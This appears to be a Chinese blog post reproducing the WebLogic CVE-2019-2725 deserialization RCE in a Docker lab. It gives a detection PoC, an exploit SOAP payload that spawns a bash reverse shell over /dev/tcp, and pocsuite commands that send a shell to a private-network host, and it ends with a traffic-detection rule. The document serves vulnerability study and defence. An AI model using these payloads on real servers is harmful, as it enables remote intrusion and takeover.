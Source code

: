 ```yaml
---
layout: post
title:  "Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)" 
date:   2019-08-08 17:10:51
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)

## 漏洞概述

由于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

### 漏洞环境搭建

docker 快速启动：

```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 


### 漏洞复现

#### Poc：
* 通用无回显 poc

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

如果 res.status_code == 202 则可以判断存在漏洞

* 特定版本可回显 poc

向 /wls-wsat/CoordinatorPortType 传递恶意构建的 xml 请求可以触发回显信息。通过使用 ls 命令查看目录下是否存在 server bin 等必要目录，如果存在这些必要目录，则判定 poc 执行成功
Version = 10.*
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml",
"cmd": "whoami"
body:
参考下面 pocsuite poc 部分
```
Version = 12
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml"
body：
参考下面 pocsuite poc 部分
```


#### Exp：
* exp_for_asy

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
* exp_for_wls
参考下面 pocsuite exp 部分
#### Pocsuite
* poc

[poc.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/poc.py)
```bash
pocsuite -r poc.py -u 172.16.5.162 
```
* exp

[exp.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/exp.py)
```bash
pocsuite -r exp.py -u 172.16.5.162 --extra-params="{'cmd':'bash -i &gt;&amp; /dev/tcp/172.16.5.1/1136 0&gt;&amp;1'}"
```

### 流量检测

规则：通过检测目标对 /_async/AsyncResponseService 目录的请求，确定目标请求使用存在漏洞的组件，如果在对 /_async/AsyncResponseService 的请求中存在 content-type 为 ‘text/xml’ 的请求且请求内容存在  `<soapenv><soapenv/>` (\<soapenv>用于创建自定义命名空间)则判定存在攻击行为 
